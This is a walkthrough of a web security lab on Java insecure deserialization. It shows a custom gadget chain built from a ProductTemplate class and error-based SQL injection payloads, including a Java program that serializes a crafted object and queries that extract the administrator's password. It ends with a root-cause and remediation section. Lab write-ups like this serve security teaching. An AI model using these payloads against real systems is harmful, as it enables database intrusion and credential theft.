# Developing a custom gadget chain for Java deserialization
## Description
This lab uses a serialization-based session mechanism. If you can construct a suitable gadget chain, you can exploit this lab's insecure deserialization to obtain the administrator's password.

To solve the lab, gain access to the source code and use it to construct a gadget chain to obtain the administrator's password. Then, log in as the administrator and delete carlos.

You can log in to your own account using the following credentials: wiener:peter 
## Steps
Before hands-on this lab, I want to explain what is serialize and deserialize.
- Serialize is a method of converting object data into byte stream data
- Deserialize is a method of converting byte stream data into object data.
So what is the purpose of this function. Object data is exist as data structure in memory so it cannot be sent just by HTTP/HTTPS. The reason that, we have serialize to convert it into byte stream data to solve this problem.

There is a method that we have to focus on:
- ObjectInputStream.readObject(): this method of the class being deserialized can run custom code. If this method read serialized data from untrusted source, attack can pass the malicious object into the website via its deserialization process.

Now, access the lab. This lab provided an account so I logged in.



After logged in, I had seen cookie start with `rO0`. It is a sign of serialized data of Java language so I tried to decode it. 


This showed that AccessTokenUser class has 2 properties username, accessToken => Cannot bypass by change username.

Back to the page source


I saw a comment pointing to `/backup/AccessTokenUser.java`. So I sent a request to `/backup/AccessTokenUser.java`

```jsx
package data.session.token;

import java.io.Serializable;

public class AccessTokenUser implements Serializable
{
    private final String username;
    private final String accessToken;

    public AccessTokenUser(String username, String accessToken)
    {
        this.username = username;
        this.accessToken = accessToken;
    }

    public String getUsername()
    {
        return username;
    }

    public String getAccessToken()
    {
        return accessToken;
    }
}

```
There is nothing I can exploit because this class doesn’t read any serialized data that could be manipulated. Back to the `/backup` folder.


 I saw a file named `ProductTemplate.java`.
 

```jsx
package data.productcatalog;

import common.db.JdbcConnectionBuilder;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException
    {
        inputStream.defaultReadObject();

        JdbcConnectionBuilder connectionBuilder = JdbcConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "password"
        ).withAutoCommit();
        try
        {
            Connection connect = connectionBuilder.connect(30);
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
            Statement statement = connect.createStatement();
            ResultSet resultSet = statement.executeQuery(sql);
            if (!resultSet.next())
            {
                return;
            }
            product = Product.from(resultSet);
        }
        catch (SQLException e)
        {
            throw new IOException(e);
        }
    }

    public String getId()
    {
        return id;
    }

    public Product getProduct()
    {
        return product;
    }
}

```

This class has 3 fields
```jsx
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;

```
This is a constructor receives `id` when create an object
```jsx
public ProductTemplate(String id)
    {
        this.id = id;
    }
```

```jsx
private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException
    {
        //This line tells Java to do default deserialization
        //When this line is executed, our object only has the id field...
        //...because product field is transient
        inputStream.defaultReadObject();
			  
        //Create a database connection to PostgreSQL
        JdbcConnectionBuilder connectionBuilder = JdbcConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "password"
        ).withAutoCommit();
        try
        {
            Connection connect = connectionBuilder.connect(30);
            //Use the restored id directly inside the SQL query string
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
            //Send the query to DB
            Statement statement = connect.createStatement();
            ResultSet resultSet = statement.executeQuery(sql);
            if (!resultSet.next())
            {
                return;
            }
            product = Product.from(resultSet);
        }
        catch (SQLException e)
        {
            throw new IOException(e);
        }
    }
```
In here I can see the sql query can easily be exploited by SQL Injection. I can manipulate the `id` parameter via deserialize process. If I create an object with a constructor and serialize it, I can probably control the id parameter.
So I prepared 2 files:
`Serialize.java`
```jsx
package data.productcatalog;

import java.io.ObjectOutputStream;
import java.io.FileOutputStream;

public class Serialize{
        public static void main(String[] args) throws Exception{
                ProductTemplate exploit = new ProductTemplate("$INPUT$");
                FileOutputStream file = new FileOutputStream("/home/crie/Desktop/data.ser");
                ObjectOutputStream out = new ObjectOutputStream(file);
                out.writeObject(exploit);
                out.close();
                System.out.println("Done");
        }
}
```
Note that `serialVersionUID` must match exactly between the original class and the version I compile locally — if it doesn't match, Java's deserialization will throw an `InvalidClassException` ("local class incompatible"), since the JVM uses this value to verify that the serialized data matches the expected class version. This code read byte stream data and restore the state of object and get the value of `id` using for the input of the query.
`ProductTemplate.java`
```jsx
package data.productcatalog;


import java.io.ObjectInputStream;
import java.io.Serializable;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;

    public ProductTemplate(String id)
    {
        this.id = id;
    }


    public String getId()
    {
        return id;
    }
}
```
With correct folder for sure (placed in the matching package folder structure, data/productcatalog/, to match the original class).

I tried set id = `"1'"`, and it return error message because the query become:
```SELECT * FROM products WHERE id = '1''```




Based on the error, I can use error-based SQLI. I changed the value of id to `' AND 1=CAST((SELECT array_agg(table_name)::text FROM information_schema.tables WHERE table_schema = 'public') AS int)--` to get the table name that store user credentials. Because of subquery must only return one column and one row so I format the output as array and change the data type to string.




The error message show that the name of the table that store user credentials is `users`. Next, I have to explore the columns name of table `users`. Set value of id to `' AND 1=CAST((SELECT array_agg(column_name)::text FROM information_schema.columns WHERE table_name = 'users') AS int)--`




The error message show that the table `users` have 3 columns named `username`, `password`, `email`. Now we can get the password of `administrator` user.

`' AND 1=CAST((SELECT password FROM users WHERE username = 'administrator') AS int)--`



Fortunately, the user password is stored as plaintext so I don't have to do anything more. Just log in to `administrator` user by the credentials we got and deleted `carlos` user to complete the lab.




## Root Cause

- The application deserializes untrusted, client-supplied data (the session cookie) directly via `ObjectInputStream.readObject()`, without any validation of the class being instantiated or integrity checking (such as a signature/HMAC) on the serialized payload. This allows an attacker to craft and submit an entirely new serialized object of any class available in the application's classpath — including classes never intended to be part of the session mechanism, such as `ProductTemplate`.
- The `ProductTemplate` class defines a custom `readObject()` method that executes dangerous logic automatically as part of deserialization — specifically, it builds and executes a raw SQL query using the `id` field, which is restored directly from attacker-controlled serialized data.
- The SQL query is built via unsanitized string concatenation (`String.format`) instead of a parameterized query/prepared statement, making it trivially vulnerable to SQL injection once an attacker can control the `id` field's value.
- Combined, these two issues let an attacker turn an unrelated, legitimate class (`ProductTemplate`) into a "gadget": an object whose mere deserialization executes attacker-controlled SQL against the backend database, entirely bypassing the authentication and business logic of the application.
- Error-based data exfiltration was possible because the application returns raw database/parsing error messages in its response, allowing the attacker to leak arbitrary query results (table names, column names, and ultimately plaintext credentials) through deliberately triggered type-casting errors.

## Remediation

- **Never deserialize untrusted data using native Java serialization (`ObjectInputStream`)** without restricting which classes can be instantiated. Use
  an allowlist-based `ObjectInputFilter` (available since Java 9, or via libraries like `SerialKiller` / Apache Commons `ValidatingObjectInputStream` for older versions) to restrict deserialization to a small, known-safe set of classes only.
- Prefer safer, less expressive serialization formats for session data that don't carry arbitrary code-execution risk by design — e.g. JSON (with a schema/strict type binding), rather than native Java object serialization.
- Sign and verify session data integrity (e.g. HMAC) so that any tampering with the serialized payload is detected and rejected before deserialization is attempted, preventing arbitrary attacker-crafted objects from being accepted at all.
- Always use parameterized queries / prepared statements (`PreparedStatement` with bind parameters) instead of string concatenation when building SQL queries, to eliminate SQL injection regardless of where the input originates (even from deserialized objects).
- Avoid embedding dangerous side effects (such as database queries, file I/O, or network calls) inside `readObject()` or other deserialization-related methods, since this logic runs implicitly and automatically — any class with such behavior is a potential deserialization gadget.
- Return generic, non-descriptive error messages to the client instead of raw database exceptions, to prevent attackers from using error messages as an information-disclosure side channel (error-based SQL injection would have been significantly harder without this).
- Apply the principle of least privilege to the database account used by the application (e.g. restrict it from accessing `information_schema` or other databases/tables it doesn't strictly need), limiting the blast radius even if SQL injection occurs.
